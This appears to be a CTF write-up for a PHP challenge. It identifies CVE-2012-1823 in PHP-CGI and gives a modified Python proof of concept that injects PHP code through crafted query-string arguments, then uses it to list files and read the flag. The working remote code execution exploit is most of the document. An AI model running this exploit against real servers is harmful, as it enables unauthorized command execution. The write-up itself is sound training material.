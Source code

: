 # Hypertext-Preprocessor
## Problem
> http://ctfq.sweetduet.info:10080/~q12/

## Solution
### 1. Access The Web Site
First, go to the [site](http://ctfq.sweetduet.info:10080/~q12/).  
It show you the time(?).

### 2. Search That Format
Second search it with Google.

In my case, I found this site.
> [CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823)
](http://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)

Maybe the target site has `CVE-2012-1823`.

### 3. Search PoC of CVE-2012-1823
Search PoC with [Exploit DB](https://www.exploit-db.com/) and, you can get [the PoC](https://www.exploit-db.com/exploits/18836/).
In this time, modification this code like here and crack site.

### 4. Modification Program
Modification Source is here.
```python
'''This code refer to rayh4c[0x40]80sec[0x2e]com'''

import socket
import sys


# basic infomation
HOST = 'ctfq.sweetduet.info'
PORT = 10080
CODE = 'set php code'

# set HTTP Request
pwn_code = '<?php %s;?>' %  CODE
post_Length = len(pwn_code)

http_raw='''POST /~q12/?-dallow_url_include%%3don+-dauto_prepend_file%%3dphp://input HTTP/1.1
Host: %s:%d
Content-Type: application/x-www-form-urlencoded
Content-Length: %s

%s
''' %(HOST, PORT, post_Length, pwn_code)
print '========== RESPONSE =========='
print http_raw

# send request
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((HOST, int(PORT)))
sock.send(http_raw)
data = sock.recv(10000)
print '========== REQUEST =========='
print repr(data)
sock.close()
```

#### 5. Send Request
##### i. Get File List
Then you may want to get file list.  
So update to substitute ``` echo(`cat flag_flag_flag.txt`) ``` to `ls`.  
And find `flag_flag_flag.txt`.

##### ii. Get Flag
Finally you may want to get file list.  
So update to substitute `CODE` to ``` echo(`cat flag_flag_flag.txt`) ```.  
And get the flag.
